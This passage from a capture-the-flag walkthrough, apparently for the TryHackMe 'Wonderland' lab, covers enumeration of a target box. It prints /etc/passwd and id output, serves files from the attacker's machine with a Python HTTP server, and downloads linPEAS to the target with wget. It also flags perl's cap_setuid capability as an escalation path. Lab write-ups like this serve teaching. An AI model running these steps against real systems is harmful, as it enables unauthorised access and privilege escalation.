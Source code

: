 I poke around for a bit but don't find anything overly useful. Lets further enumerate the box.

<br>


## System Enumeration

Time to enumerate the system a bit more and see what we can find.

Looking through the **/etc/passwd** file and there are several users with login shells. We've logged into each of them except root and tryhackme at this point.

```
alice:x:1001:1001:Alice Liddell,,,:/home/alice:/bin/bash
hatter:x:1003:1003:Mad Hatter,,,:/home/hatter:/bin/bash
rabbit:x:1002:1002:White Rabbit,,,:/home/rabbit:/bin/bash
root:x:0:0:root:/root:/bin/bash
tryhackme:x:1000:1000:tryhackme:/home/tryhackme:/bin/bash
```

Running the `id` command on each of the users:

```
uid=1001(alice) gid=1001(alice) groups=1001(alice)
uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)
uid=1002(rabbit) gid=1002(rabbit) groups=1002(rabbit)
uid=0(root) gid=0(root) groups=0(root)
uid=1000(tryhackme) gid=1000(tryhackme) groups=1000(tryhackme),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

I set up a simple http server on my home system and download **linPEAS** onto the target system:

`python3 -m http.server 80`

`wget http://<MY IP>/linpeas.sh`

`chmod +x linpeas.sh`

Running linPEAS doesn't provide much other than this:

```
Files with capabilities (limited to 50):
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

I look up what cap_setuid+ep will allow us to do and find the following information in the man page:

![](images/wonderland10.png)
